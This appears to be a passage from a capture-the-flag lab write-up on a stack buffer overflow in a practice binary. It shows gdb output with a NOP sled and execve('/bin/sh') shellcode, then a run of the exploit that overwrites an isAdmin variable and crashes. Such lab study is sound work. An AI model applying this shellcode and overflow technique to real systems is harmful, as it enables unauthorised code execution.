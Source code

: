 Whats the value on the stack which will be put into EIP?
```
(gdb) x/1x $esp
0xffffdc2c:     0xffffdb9c
```

The value at ESP is `0xffffdb9c`. This gets loaded into EIP. It should point to our shellcode:
```
(gdb) x/32i 0xffffdb9c
   0xffffdb9c:  nop
   0xffffdb9d:  nop
   0xffffdb9e:  nop
   0xffffdb9f:  nop
   0xffffdba0:  nop
...
   0xffffdc01:  nop
   0xffffdc02:  nop
   0xffffdc03:  nop
   0xffffdc04:  nop
   0xffffdc05:  xor    eax,eax
   0xffffdc07:  push   eax
   0xffffdc08:  push   0x68732f6e
   0xffffdc0d:  push   0x69622f2f
   0xffffdc12:  mov    ebx,esp
   0xffffdc14:  xor    ecx,ecx
   0xffffdc16:  xor    edx,edx
   0xffffdc18:  mov    al,0xb
   0xffffdc1a:  int    0x80
   0xffffdc1c:  inc    ecx
   0xffffdc1d:  inc    ecx
   0xffffdc1e:  inc    ecx
   0xffffdc1f:  inc    ecx
   0xffffdc20:  inc    ecx
```

As expected: We see the NOP sled, and the shellcode after starting at address `0xffffdc05`.


## Test exploit without gdb

To debug it, we need to enable core files first with:
```
~/challenges/challenge11$ ulimit -c unlimited
```

Lets test the exploit without starting it under GDB:
```
~/challenges/challenge11$ ./challenge11 `python3 ./challenge11-exploit.py` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
~/challenges/challenge11$ ls
Makefile  challenge11  challenge11-exploit.py  challenge11.c  core.173
```
